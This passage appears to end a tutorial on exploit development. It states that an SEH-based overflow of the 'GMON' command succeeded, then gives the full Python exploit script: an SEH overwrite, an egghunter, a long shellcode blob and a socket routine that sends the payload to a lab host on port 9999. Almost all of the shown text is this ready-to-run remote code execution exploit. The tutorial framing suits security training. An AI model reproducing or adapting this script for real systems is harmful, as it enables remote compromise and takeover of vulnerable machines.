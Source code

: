 We've successfully performed an SEH-based overflow on the `GMON` command in two different ways, one with an egghunter and one without. 

In summary, our egghunter exploit code looked like this:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

Seh = '\x2b\x17\x50\x62'
nSeh = '\xeb\x06\x90\x90'
egghunter = ("\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
"\xef\xb8\x45\x47\x47\x48\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7")

egg = 'EGGHEGGH'
shellcode = ("\xdb\xcc\xd9\x74\x24\xf4\x5a\x29\xc9\xb1\x52\xbf\x36\x08\x50"
"\xc1\x31\x7a\x17\x83\xc2\x04\x03\x4c\x1b\xb2\x34\x4c\xf3\xb0"
"\xb7\xac\x04\xd5\x3e\x49\x35\xd5\x25\x1a\x66\xe5\x2e\x4e\x8b"
"\x8e\x63\x7a\x18\xe2\xab\x8d\xa9\x49\x8a\xa0\x2a\xe1\xee\xa3"
"\xa8\xf8\x22\x03\x90\x32\x37\x42\xd5\x2f\xba\x16\x8e\x24\x69"
"\x86\xbb\x71\xb2\x2d\xf7\x94\xb2\xd2\x40\x96\x93\x45\xda\xc1"
"\x33\x64\x0f\x7a\x7a\x7e\x4c\x47\x34\xf5\xa6\x33\xc7\xdf\xf6"
"\xbc\x64\x1e\x37\x4f\x74\x67\xf0\xb0\x03\x91\x02\x4c\x14\x66"
"\x78\x8a\x91\x7c\xda\x59\x01\x58\xda\x8e\xd4\x2b\xd0\x7b\x92"
"\x73\xf5\x7a\x77\x08\x01\xf6\x76\xde\x83\x4c\x5d\xfa\xc8\x17"
"\xfc\x5b\xb5\xf6\x01\xbb\x16\xa6\xa7\xb0\xbb\xb3\xd5\x9b\xd3"
"\x70\xd4\x23\x24\x1f\x6f\x50\x16\x80\xdb\xfe\x1a\x49\xc2\xf9"
"\x5d\x60\xb2\x95\xa3\x8b\xc3\xbc\x67\xdf\x93\xd6\x4e\x60\x78"
"\x26\x6e\xb5\x2f\x76\xc0\x66\x90\x26\xa0\xd6\x78\x2c\x2f\x08"
"\x98\x4f\xe5\x21\x33\xaa\x6e\x8e\x6c\xb5\xa9\x66\x6f\xb5\x34"
"\xcc\xe6\x53\x5c\x22\xaf\xcc\xc9\xdb\xea\x86\x68\x23\x21\xe3"
"\xab\xaf\xc6\x14\x65\x58\xa2\x06\x12\xa8\xf9\x74\xb5\xb7\xd7"
"\x10\x59\x25\xbc\xe0\x14\x56\x6b\xb7\x71\xa8\x62\x5d\x6c\x93"
"\xdc\x43\x6d\x45\x26\xc7\xaa\xb6\xa9\xc6\x3f\x82\x8d\xd8\xf9"
"\x0b\x8a\x8c\x55\x5a\x44\x7a\x10\x34\x26\xd4\xca\xeb\xe0\xb0"
"\x8b\xc7\x32\xc6\x93\x0d\xc5\x26\x25\xf8\x90\x59\x8a\x6c\x15"
"\x22\xf6\x0c\xda\xf9\xb2\x2d\x39\x2b\xcf\xc5\xe4\xbe\x72\x88"
"\x16\x15\xb0\xb5\x94\x9f\x49\x42\x84\xea\x4c\x0e\x02\x07\x3d"
"\x1f\xe7\x27\x92\x20\x22")


buffer = 'A' * (3514 - len(egg + shellcode))
buffer += egg
buffer += shellcode
buffer += nSeh
buffer += Seh
buffer += egghunter
buffer += 'C' * (5012 - len(buffer))


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("GMON /.../" + buffer)
print s.recv(1024)
s.close()
```
